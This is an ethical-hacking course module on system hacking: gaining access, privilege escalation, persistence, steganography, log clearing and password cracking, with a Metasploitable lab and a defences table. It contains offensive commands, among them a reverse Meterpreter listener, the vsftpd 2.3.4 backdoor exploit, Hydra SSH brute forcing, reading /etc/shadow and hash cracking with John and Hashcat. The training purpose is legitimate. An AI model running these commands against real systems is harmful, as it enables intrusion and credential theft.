




# System Hacking 🖥️🔓

> **What you'll learn:** How attackers break into a single computer, raise their privileges, stay hidden, crack passwords, and erase their tracks — and how defenders stop each step.
> **Prerequisites:** Comfort with a Linux terminal, basic networking (IP addresses, ports), and an understanding of footprinting/scanning (the recon phases that come *before* this module).

| Course | Course code | Module | Level |
| --- | --- | --- | --- |
| CSPP Professional Level 1 | SKL-CSP1-710 | Module 06 — System Hacking | level1 |

---

## 1. In Plain English 🏢

Think of a building. Earlier modules were about *casing it* — walking around, photographing the doors, noting open windows, identifying the lock brand. **System hacking is the part where someone actually gets *inside*.**

Once an attacker is in one room (a regular user account), they want more:

- 🔑 The **master key** — administrator access (privilege escalation).
- 🚪 A way to **come back tomorrow** even if the lock changes (persistence).
- 🖼️ To **hide stolen documents** inside an ordinary painting (steganography).
- 📹 To **wipe the camera footage** on the way out (clearing logs / anti-forensics).

Almost every "hacked company" headline follows the same shape: **get in → get bigger → stay in → take stuff → cover up.** Learn these five steps and you understand the bulk of real-world intrusions — and where defenders put up walls.

> 🔑 **Key idea:** Everything here is taught for **authorized testing and education only**. A penetration tester performs these exact steps, but with written permission and the goal of *fixing* holes, not exploiting them.

---

## 2. Core Concepts 🧩

### The Five-Phase Model

**System hacking** is the set of techniques used to compromise an individual computer (a "host") after reconnaissance is done. It is a goal-driven pipeline, and each phase maps closely to the **MITRE ATT&CK** framework — a free, industry-standard catalogue of attacker behaviors maintained by MITRE.



| # | Phase | Goal | MITRE ATT&CK Tactic |
| --- | --- | --- | --- |
| 1 | 🎯 Gaining access | Get any valid login or code execution | Initial Access |
| 2 | ⬆️ Escalating privileges | Turn a low-power account into admin/root | Privilege Escalation |
| 3 | 🔁 Maintaining access | Return without redoing step 1 | Persistence |
| 4 | 🕵️ Hiding data / exfiltration | Conceal what you take | Defense Evasion / Exfiltration |
| 5 | 🧹 Clearing logs / anti-forensics | Defeat detection and investigation | Defense Evasion |

### 🎯 Gaining Access

**Gaining access** means obtaining a usable presence on the target. Common routes:

- **Credential-based:** logging in with a username/password the attacker stole, guessed, or cracked.
- **Exploit-based:** abusing a software bug (a **vulnerability**) to run the attacker's code.
  - An **exploit** is a ready-made program that triggers a vulnerability.
  - The **payload** is the code it delivers.
- A **shell** is the prize: an interactive command line on the target.

| Shell type | Who connects to whom | Why use it |
| --- | --- | --- |
| **Reverse shell** | Target connects back to attacker | Slips past firewalls that block *inbound* connections |
| **Bind shell** | Attacker connects to a port the target opens | Simple, but blocked by most inbound firewalls |

### ⬆️ Escalating Privileges

After gaining access you usually land as a low-privilege user. **Privilege escalation** increases your rights.

| Direction | Meaning | Example |
| --- | --- | --- |
| **Vertical** ⬆️ | Going *up* in privilege | Normal user → `root` (Linux) or `SYSTEM`/Administrator (Windows) |
| **Horizontal** ➡️ | Moving *sideways* | Accessing another user's account at the same level |

Escalation typically exploits a misconfiguration or bug: a program running as root with weak file permissions, a writable scheduled task, a kernel vulnerability, or a Linux **SUID binary** (a program that runs with its *owner's* privileges rather than the caller's).

### 🔁 Maintaining Access / Persistence

**Persistence** ensures the attacker survives reboots, password changes, and patches.

- Create a hidden user account.
- Install a **backdoor** (a secret way back in).
- Schedule a task that re-launches the payload — cron on Linux, Scheduled Tasks/Run keys on Windows.
- Install a **rootkit** — malware that embeds deep in the OS to stay invisible.

### 🖼️ Image Steganography

> 🔑 **Key idea:** Cryptography hides the *content* (you see there's a secret but can't read it). **Steganography hides the *existence* of the secret entirely.**

**Image steganography** tucks data inside picture files, often by altering the **least significant bit (LSB)** of each pixel's color value — a change too tiny for the human eye to notice. Attackers use it to sneak stolen data past inspection or smuggle commands to malware.

### 🧹 Clearing Logs & Anti-Forensics

- **Logs** are the records an OS keeps of who logged in, what ran, and what failed.
- **Clearing logs** means deleting or editing those records to hide activity.
- **Anti-forensics** is the broader practice of frustrating investigators: secure file wiping, altering timestamps (**timestomping**), disabling logging, or hiding data.

> 💡 **Tip (for defenders):** This is exactly why logs should be shipped *off the host* in real time — you can't tamper with a record that's already gone.

### 🔐 Password Cracking Techniques

Passwords are rarely stored in plain text — they're stored as **hashes** (one-way scrambles from functions like NTLM or bcrypt). You can't reverse a hash, so attackers *guess* candidates, hash each guess, and compare.

| Technique | How it works | Trade-off |
| --- | --- | --- |
| **Brute force** | Try every possible combination | ✅ Guaranteed · ❌ Very slow |
| **Dictionary** | Try words from a wordlist (e.g. `rockyou.txt`) | ✅ Fast · ❌ Misses non-words |
| **Hybrid** | Dictionary words + mutations (`password` → `Password1!`) | Balances speed and coverage |
| **Rule-based** | Apply transformation rules to a wordlist | Tunable, efficient |
| **Rainbow tables** | Precomputed hash→password lookup | ❌ Defeated by **salting** |
| **Credential stuffing** | Reuse pairs leaked from other breaches | Exploits password reuse |

> ⚠️ **Warning:** **Salting** — adding random data to each password before hashing — defeats rainbow tables because every identical password now hashes differently.

---

## 3. How It Works (Step by Step) 🪜

The canonical flow a penetration tester follows on an authorized engagement:

1. **Recon hand-off.** Scanning revealed an open service (e.g. an outdated web app or SMB share) and maybe usernames.
2. **Gain access.** Crack/guess a credential, or fire an exploit for a reverse shell → low-privilege session.
3. **Local enumeration.** Inspect the host: OS version, running services, file permissions, scheduled jobs, SUID binaries.
4. **Escalate privileges.** Abuse a misconfiguration or kernel bug to become root/SYSTEM.
5. **Maintain access.** Drop a backdoor or persistence mechanism.
6. **Act on objective / hide data.** Locate target data; optionally hide it via steganography before exfiltration.
7. **Cover tracks.** Clear or tamper with logs and timestamps (in a real test this is *documented*, not used to truly evade the client).
8. **Report.** Write up every step so the organization can fix each weakness.



A reverse shell in action — the target reaches back out to the attacker's listener:



---

## 4. Real-World Examples 🌍

**🤖 Mirai botnet (2016).** Mirai spread by *gaining access* to internet-connected cameras and routers using a built-in list of default username/password pairs (e.g. `admin/admin`) — textbook credential-based access plus dictionary-style guessing. It then maintained access and launched one of the largest DDoS attacks ever recorded against DNS provider Dyn.
> 🔑 **Lesson:** Default credentials are an open door.

**🪪 "Pass-the-hash" in enterprise breaches.** Attackers often don't need the plaintext password. Once they grab a Windows password **hash** from one machine's memory, they reuse the hash directly to authenticate to other machines. This blends privilege escalation and lateral movement and recurs in incident reports involving the Mimikatz tool.

**🖼️ Steganographic malware command channels.** Several documented malware families hid configuration data or stolen information inside image files posted to public sites, so traffic looked like ordinary picture downloads — defeating simple network filters and showing exactly why steganography is part of the attacker toolkit.

---

## 5. Tools of the Trade 🧰

> ⚠️ **Warning:** All tools below are standard, legal security software — use them **only** on systems you are authorized to test.

| Tool | Category | Online/Offline | Typical use |
| --- | --- | --- | --- |
| **Metasploit** | Exploitation & post-exploitation | — | Fire exploits, catch shells |
| **John the Ripper** | Password cracking | Offline | Dictionary/rule attacks, auto-detects hash type |
| **Hashcat** | Password cracking (GPU) | Offline | Massive-speed cracking on the graphics card |
| **Hydra** | Credential attack | Online | Brute/dictionary against live services (SSH, etc.) |
| **LinPEAS / WinPEAS** | Privesc enumeration | — | Surface escalation paths on a host |
| **Steghide** | Steganography | — | Embed/extract hidden data in images & audio |

### Metasploit Framework — exploitation & post-exploitation

A platform of ready exploits, payloads, and post-exploitation modules.

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
run
```

Starts a *listener* (handler) that catches a reverse Meterpreter shell connecting back to the attacker at `10.0.0.5:4444`.

> 🖼️ *Suggested image: Metasploit console (`msfconsole`) showing a successful "Meterpreter session 1 opened" banner.*

### John the Ripper — password cracking

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Runs a dictionary attack: each word in `rockyou.txt` is hashed and compared against the hashes in `hashes.txt`. John auto-detects the hash type.

### Hashcat — GPU-accelerated cracking

```bash
hashcat -m 1000 -a 0 hashes.txt rockyou.txt
```

`-m 1000` selects NTLM hash mode, `-a 0` chooses a straight dictionary attack. Hashcat uses the graphics card for massive speed.

| Flag | Meaning |
| --- | --- |
| `-m 1000` | Hash type = NTLM |
| `-a 0` | Attack mode = straight dictionary |

### Hydra — online (network) credential attacks

```bash
hydra -l admin -P passwords.txt ssh://192.168.56.101
```

Tries each password in `passwords.txt` for user `admin` against SSH on the target.

> ⚠️ **Warning:** Online attacks are noisy and frequently trigger account lockouts — use only against authorized hosts.

### LinPEAS / WinPEAS — privilege-escalation enumeration

```bash
./linpeas.sh
```

Scans a Linux host and highlights likely escalation paths (writable files, SUID binaries, weak service configs) in color-coded output.

### Steghide — image/audio steganography

```bash
steghide embed -cf cat.jpg -ef secret.txt
steghide extract -sf cat.jpg
```

The first command embeds `secret.txt` inside `cat.jpg` (prompting for a passphrase); the second extracts hidden data from a stego file.

> 🖼️ *Suggested image: side-by-side comparison of an original image and its stego version that look visually identical.*

---

## 6. Hands-On Lab (Authorized / Lab-Only) 🧪

> ⚠️ **Warning:** Perform these steps ONLY on systems you own or are explicitly authorized to test, such as a local Metasploitable 2 VM on an **isolated** network. Never against a system you do not control.

**Target:** Metasploitable 2 — a deliberately vulnerable Linux VM — at `192.168.56.101`, attacked from a Kali Linux VM. We will gain access, escalate, capture password hashes, and crack them.

**Step 1 — Scan for an entry point.**
```bash
nmap -sV 192.168.56.101
```
*Expected:* a list of services with versions. You'll see an old `vsftpd 2.3.4` on port 21 and `OpenSSH` on 22. The vsftpd version is famously backdoored — that's our way in.

> 🖼️ *Suggested image: terminal showing `nmap -sV` output with the vsftpd 2.3.4 line highlighted.*

**Step 2 — Gain access with Metasploit.**
```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```
*Expected:* `Command shell session 1 opened`. Confirm who you are:
```bash
id
```
*Interpretation:* if it returns `uid=0(root)`, this exploit already lands as root. On other footholds you'd land as a low user and continue to Step 3.

**Step 3 — Enumerate for escalation (when you land as a normal user).**
```bash
./linpeas.sh | tee linpeas.out
```
*Expected:* color-highlighted findings. Look for lines flagged red/yellow: writable `/etc/passwd`, unusual SUID binaries, or a vulnerable kernel.
*Interpretation:* each flagged item is a candidate path to root. Pick the simplest (e.g. a known SUID misconfiguration) and exploit it.

**Step 4 — Capture password hashes (now that you are root).**
```bash
cat /etc/shadow
```
*Expected:* lines like `user:$1$xyz$....:...`. The `$1$` marks an MD5-crypt hash. Copy these into a file `hashes.txt` on your Kali box.

**Step 5 — Crack the hashes offline.**
```bash
john --format=md5crypt hashes.txt
john --show hashes.txt
```
*Expected:* after some time, `john --show` lists recovered `user:password` pairs (Metasploitable accounts use weak passwords like `msfadmin`).
*Interpretation:* weak passwords fall in seconds — exactly why length and complexity matter.

**Step 6 — Demonstrate persistence (lab only).** Add a benign cron entry or note a backdoor you *would* place, then **document everything** and **revert the VM to a clean snapshot**. In a real engagement you remove all changes and report them.

---

## 7. Countermeasures & Defenses 🛡️

The strongest posture attacks every phase at once. Map each defense back to the phase it blocks:



| Phase | 🗡️ Attack | 🛡️ Defense |
| --- | --- | --- |
| **Initial access** | Exploit unpatched/EOL software; default & shared creds | Patch promptly; remove EOL software; enforce **MFA**; disable unused services & ports |
| **Privilege escalation** | Weak permissions, loose SUID/SGID, kernel bugs | **Least privilege**; audit SUID/SGID & writable files; patch kernel and local software |
| **Persistence** | Backdoors, cron/Run keys, new accounts, rootkits | Baseline & monitor scheduled tasks and accounts; file-integrity monitoring (**AIDE, Tripwire**) |
| **Password attacks** | Dictionary, brute force, rainbow tables | Store with salted **bcrypt/scrypt/Argon2**; length-first policies + breach-list checks; lockout/rate-limit logins |
| **Steganography / exfil** | Hidden data in images, abnormal egress | **DLP** tools; monitor unusual outbound data; inspect/normalize images; track abnormal file sizes |
| **Log clearing** | Delete/tamper local logs, timestomping | Ship logs **off-host to a SIEM** in real time; append-only/tamper-evident logs; alert on log clears (Windows Event ID **1102**) |

> 💡 **Tip:** If you ship logs off-host in real time, an attacker who clears the local log only destroys a copy — the evidence already left the building.

---

## 8. Key Terms 📚

| Term | Meaning |
| --- | --- |
| **Vulnerability** | A flaw that can be abused to compromise a system |
| **Exploit** | Code or technique that triggers a vulnerability |
| **Payload** | The code that runs on the target after an exploit succeeds (e.g. a reverse shell) |
| **Shell** | Interactive command-line access to a system |
| **Privilege escalation** | Gaining higher rights (vertical = upward; horizontal = sideways) |
| **SUID binary** | A Linux program that runs with its owner's privileges — a common escalation vector |
| **Persistence / backdoor** | Mechanisms to keep returning to a compromised host |
| **Rootkit** | Malware that hides deep in the OS for stealthy access |
| **Hash** | A one-way scramble of a password; what cracking tools attack |
| **Salt** | Random data added before hashing to defeat rainbow tables |
| **Steganography** | Hiding the *existence* of data (e.g. inside an image's least significant bits) |
| **Anti-forensics / timestomping** | Techniques to destroy or falsify evidence such as logs and timestamps |
| **SIEM** | A central system that collects and analyzes logs for detection |

---

## 9. Summary & Takeaways ✅

- 🪜 System hacking follows a repeatable pipeline: **gain access → escalate → persist → hide/exfiltrate → cover tracks.**
- 🎯 **Gaining access** comes from stolen credentials or exploited vulnerabilities; a reverse shell is the typical first prize.
- ⬆️ **Privilege escalation** turns a foothold into full control via misconfigurations, weak permissions, or kernel bugs.
- 🔁 **Persistence** (backdoors, cron jobs, rootkits) lets attackers return — so monitor new accounts and startup changes.
- 🔐 **Passwords are cracked, not reversed:** guessing against hashes — defeated by salting and strong algorithms.
- 🖼️ **Steganography** hides data inside ordinary files; defend with DLP and outbound-traffic monitoring.
- 🧹 **Clearing logs** is neutralized by shipping logs off-host to a SIEM in real time.

> 🔑 **Key idea:** The best single defense across all phases is **least privilege + patching + centralized logging + MFA.**

**Further reading:** MITRE ATT&CK (Privilege Escalation, Persistence, Defense Evasion tactics); OWASP Testing Guide; NIST SP 800-63B (Digital Identity / password guidance); NIST SP 800-86 (Guide to Integrating Forensic Techniques into Incident Response).
